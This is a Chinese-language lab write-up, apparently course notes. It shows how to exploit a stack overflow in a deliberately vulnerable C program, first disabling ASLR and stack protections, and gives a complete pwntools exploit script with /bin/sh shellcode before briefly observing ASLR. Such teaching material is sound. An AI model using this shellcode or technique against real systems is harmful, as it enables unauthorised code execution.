 ```yaml
---
title: "安全编程语言设计笔记1"
categories: [Labs]
tags: [PWN]
toc: true
classes: []
excerpt: "通过栈溢出执行Shellcode，ASLR初探"
---
```


#### 一些常识

![](/assets/images/posts/COMP737011_1/mmodel.png)

32 位的 Linux 下可执行文件加载到内存中是如上结构。其中 Code 存只读的数据，包括常量与汇编转化成的机器指令等。Data 存储可读可写的数据。Heap 用于动态分配的空间。Stack 就是栈空间，是从高地址向低地址扩展的。内核部分是所有进程共享的。



#### 利用栈溢出漏洞执行Shellcode

准备工作：关闭 ASLR。

```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

现在有这么一段带有漏洞的代码，目标是利用栈溢出这个漏洞获得 shell。

```c
#include <unistd.h>
#include <stdio.h>

int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
        write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    printf("%p",buf);
    return 0;
}

int main(int argc, char** argv){
    int flag = 0;
    while(flag == 0){
        write(STDOUT_FILENO, "Input your key:", 15);
        flag = validation();
    }
    printf("Start...\n");
}
```

使用以下指令编译它得到可执行文件

```shell
clang -fno-stack-protector -z execstack bug.c -o bug.elf
```

其中 `-fno-stack-protector` 选项关闭编译器的栈保护，`-z execstack `开启栈空间上的执行权限。

可以利用 gdb 把带有漏洞的代码段的汇编打印出来，观察得到 buf 对于 rbp 寄存器的偏移量为 50 字节。

![](/assets/images/posts/COMP737011_1/assemble1.png)

此时栈中的数据由高位到低位应该是这样的

![](/assets/images/posts/COMP737011_1/mmodel2.png)

其中 `ret address` 是程序在完成了本次函数调用后的下一条指令的地址，我们的目标就是利用栈溢出把 `ret address` 替换成我们准备的 shellcode 的起始地址，这样函数返回后就会打开一个 shell 了。简单地计算得到我们需要 88 个字节的 padding。shellcode 是一段机器码，我们想让它能执行 `/bin/sh` ，可以通过各种方法得到，可以把它放在 padding 中。

综上，payload 的构造就应该是 shellcode + 凑满88个字节的 padding 再加上 buf 的起始地址，总长度应该为 96 字节。

可以使用 gdb 查看 buf 的起始地址

![](/assets/images/posts/COMP737011_1/addr1.png)

rbp 的地址是 0x7fffffffdc40，那 buf 就是其减去 0x50 也就是 0x7fffffffdbf0。

如果直接利用这个地址构造的 payload，会得到段错误，原因在于使用 gdb 时会在栈上使用额外的空间，导致打印出的地址其实是比直接运行时的地址要低的。

可以通过以下命令打开 coredump，把发生段错误时的内存生成一个快照保存下来，其中的内存地址是准确的。

```shell
ulimit -c unlimited
sudo sysctl -w kernel.core_pattern=core
```

gdb 打开 core，通过查看 rsp 的地址推算 buf 的地址应该为 0x7fffffffdc90。

![](/assets/images/posts/COMP737011_1/addr2.png)

修改脚本后再运行，发现现在能成功打开 shell 了。

![](/assets/images/posts/COMP737011_1/success.png)

完整攻击脚本：

```python
from pwn import *

ret = 0x7fffffffdc90
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + ("A" * (88-len(shellcode))).encode('ascii') + p64(ret)

p = process("./bug.elf")
p.send(payload)
p.interactive()
```



#### 观察ASLR的效果

ASLR 通过随机化内存布局，使得地址变得难以预测，增加溢出攻击的难度。

编写一段简单的代码用于观察 ASLR 的效果。

```cpp
#include <cstdio>

void *getStack() 
{
    int ptr;
    printf("Stack pointer address: %p\n",&ptr);
    return __builtin_return_address(0);
}

void stuck()
{
    while(1) scanf("%*c");
}

int main(int argc,char** argv)
{
    printf("Return address: %p\n",getStack());
    stuck();
    return 0;
}
```

通过以下命令编译，其中 `pie` 是为了开启代码段与数据段的随机化（只在 ASLR 也被打开是才会生效）。

```shell
clang++ -fPIE -pie aslr.cpp -o aslr.elf
```

通过以下命令打开 ASLR。

```shell
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

运行 `./aslr.elf` 并通过 `ps -aux | grep aslr` 查看 pid，然后打开 `/proc/$pid/maps` 检查一下。

![](/assets/images/posts/COMP737011_1/aslr1.png)

多试几次可以发现程序每次的输出和 mmap 都不一样。
